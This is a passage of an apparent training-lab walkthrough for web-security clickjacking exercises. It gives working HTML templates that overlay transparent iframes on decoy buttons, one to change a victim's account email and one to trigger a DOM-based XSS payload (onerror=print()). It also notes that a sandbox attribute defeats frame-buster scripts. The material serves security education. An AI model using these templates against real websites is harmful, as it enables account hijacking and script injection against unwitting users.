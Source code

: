     src="$url?email=hacker@attacker-website.com"></iframe>  
    `
3.  Make the following adjustments to the template:
    
    -   Replace `$url` in the iframe `src` attribute with the URL of the target website's user account page, which contains the "Update email" form.
    -   Substitute suitable pixel values for the $height_value and $width_value variables of the iframe (we suggest 700px and 500px respectively).
    -   Substitute suitable pixel values for the $top_value and $side_value variables of the decoy web content so that the "Update email" button and the "Test me" decoy action align (we suggest 385px and 80px respectively).
    -   Set the opacity value $opacity to ensure that the target iframe is transparent. Initially, use an opacity of 0.1 so that you can align the iframe actions and adjust the position values as necessary. For the submitted attack a value of 0.0001 will work.
    
    Notice the use of the `sandbox="allow-forms"` attribute that neutralizes the frame buster script.
4.  Click "Store" and then "View exploit".
5.  Hover over "Test me" and ensure the cursor changes to a hand indicating that the div element is positioned correctly. If not, adjust the position of the div element by modifying the top and left properties of the style sheet.
6.  Once you have the div element lined up correctly, change "Test me" to "Click me" and click "Store".
7.  Now click on "Deliver exploit to victim" and the lab should be solved.

### Lab: Exploiting clickjacking vulnerability to trigger DOM-based XSS

1.  Go to the exploit server and paste the following HTML template into the "Body" section:  
    `<style>  
       iframe {  
           position:relative;  
           width:$width_value;  
           height: $height_value;  
           opacity: $opacity;  
           z-index: 2;  
       }  
       div {  
           position:absolute;  
           top:$top_value;  
           left:$side_value;  
           z-index: 1;  
       }  
    </style>  
    <div>Test me</div>  
    <iframe  
    src="$url?name=<img src=1 onerror=print()>&email=hacker@attacker-website.com&subject=test&message=test#feedbackResult"></iframe>  
    `
2.  Make the following adjustments to the template:
    -   Replace `$url` in the iframe `src` attribute with the URL for the target website's "Submit feedback" page.
    -   Substitute suitable pixel values for the $height_value and $width_value variables of the iframe (we suggest 700px and 500px respectively).
    -   Substitute suitable pixel values for the $top_value and $side_value variables of the decoy web content so that the "Submit feedback" button and the "Test me" decoy action align (we suggest 610px and 80px respectively).
    -   Set the opacity value $opacity to ensure that the target iframe is transparent. Initially, use an opacity of 0.1 so that you can align the iframe actions and adjust the position values as necessary. For the submitted attack a value of 0.0001 will work.
3.  Click "Store" and then "View exploit".
4.  Hover over "Test me" and ensure the cursor changes to a hand indicating that the div element is positioned correctly. If not, adjust the position of the div element by modifying the top and left properties of the style sheet.
5.  Click "Test me". The print dialog should open.
6.  Change "Test me" to "Click me" and click "Store" on the exploit server.